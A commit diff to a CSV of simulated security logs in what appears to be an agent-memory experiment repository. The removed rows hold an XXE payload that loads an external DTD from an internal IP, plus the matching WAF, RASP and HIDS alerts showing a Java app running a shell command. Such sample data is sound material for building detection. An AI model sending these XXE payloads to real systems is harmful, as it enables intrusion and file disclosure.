

Before and after one commit to Felen-rizerlyck/AgentMemory-Exp, a CSV file: demo/data/raw_logs.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff covers the shown part only.

Commit message:
demo: 记忆自动更新尝试（本轮修改）

```diff
--- a/demo/data/raw_logs.csv
+++ b/demo/data/raw_logs.csv
@@ -252,5 +248 @@ SIM-1038-6,SIM-B-1038,,,2026-06-25 01:10:12,dns,DNS0380560,415e2098.tbnxmu-2c8b.
 SIM-1038-7,SIM-B-1038,,,2026-06-25 01:10:51,dns,DNS0380564,bc793874.tbnxmu-2c8b.com A 203.0.113.49
-SIM-1039-1,SIM-B-1039,,,2026-06-01 08:28:06,waf,WAF0202480,"/api/v1/soap/endpoint <!DOCTYPE r [<!ENTITY % a SYSTEM ""http://10.20.5.19/e.dtd"">%a;]> Mozilla/5.0 (Windows NT"
-SIM-1039-2,SIM-B-1039,,,2026-06-01 08:28:07,web,WEB0203798,"/api/v1/soap/endpoint <!DOCTYPE r [<!ENTITY % a SYSTEM ""http://10.20.5.19/e.dtd"">%a;]> Mozilla/5.0 (Windows NT"
-SIM-1039-3,SIM-B-1039,,,2026-06-01 08:28:09,rasp,RASP0224009,"https://app-java-202.ops-corp.com/api/v1/soap/endpoint {""xxe"": ""ext_entity""} Mozilla/5.0 (Windows NT 10.0; Win"
-SIM-1039-4,SIM-B-1039,,,2026-06-01 08:29:35,hids,HID0219437,cat /etc/hostname /bin/cat cat /etc/hostname <== /bin/sh -c 'cat /etc/hostname' <== java -jar /opt/app/api.jar
```
Also changed, not shown: 12 removed rows elsewhere in this file, 12 other files.
